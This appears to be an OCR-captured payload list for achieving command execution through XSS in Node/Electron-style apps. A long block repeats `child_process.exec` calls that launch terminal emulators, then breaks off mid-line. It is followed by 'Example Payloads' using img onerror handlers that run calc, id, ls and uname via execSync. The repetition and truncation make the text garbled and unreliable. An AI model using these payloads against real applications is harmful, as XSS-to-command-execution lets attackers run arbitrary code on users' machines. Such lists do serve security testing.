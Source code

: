 ```plaintext
- `require('child_process').exec('yakuake')`
- `require('child_process').exec('roxterm')`
- `require('child_process').exec('eterm')`
- `require('child_process').exec('terminix')`
- `require('child_process').exec('cool-retro-term')`
- `require('child_process').exec('deepin-terminal')`
- `require('child_process').exec('terminology')`
- `require('child_process').exec('terminator')`
- `require('child_process').exec('tilda')`
- `require('child_process').exec('guake')`
- `require('child_process').exec('yakuake')`
- `require('child_process').exec('roxterm')`
- `require('child_process').exec('eterm')`
- `require('child_process').exec('terminix')`
- `require('child_process').exec('cool-retro-term')`
- `require('child_process').exec('deepin-terminal')`
- `require('child_process').exec('terminology')`
- `require('child_process').exec('terminator')`
- `require('child_process').exec('tilda')`
- `require('child_process').exec('guake')`
- `require('child_process').exec('yakuake')`
- `require('child_process').exec('roxterm')`
- `require('child_process').exec('eterm')`
- `require('child_process').exec('terminix')`
- `require('child_process').exec('cool-retro-term')`
- `require('child_process').exec('deepin-terminal')`
- `require('child_process').exec('terminology')`
- `require('child_process').exec('terminator')`
- `require('child_process').exec('tilda')`
- `require('child_process').exec('guake')`
- `require('child_process').exec('yakuake')`
- `require('child_process').exec('roxterm')`
- `require('child_process').exec('eterm')`
- `require('child_process').exec('terminix')`
- `require('child_process').exec('cool-retro-term')`
- `require('child_process').exec('deepin-terminal')`
- `require('child_process').exec('terminology')`
- `require('child_process').exec('terminator')`
- `require('child_process').exec('tilda')`
- `require('child_process').exec('guake')`
- `require('child_process').exec('yakuake')`
- `require('child_process').exec('roxterm')`
- `require('child_process').exec('eterm')`
- `require('child_process').exec('terminix')`
- `require('child_process').exec('cool-retro-term')`
- `require('child_process').exec('deepin-terminal')`
- `require('child_process').exec('terminology')`
- `require('child_process').exec('terminator')`
- `require('child_process').exec('tilda')`
- `require('child_process').exec('guake')`
- `require('child_process').exec('
```html
Example Payloads (Windows):
<img src=x onerror="alert(require('child_process').execSync('calc').toString());">

Example Payloads (Linux & MacOS):
<img src=x onerror="alert(require('child_process').execSync('gnome-calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('id').toString());">
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
<img src=x onerror="alert(require('child_process').execSync('uname -a').toString());">
```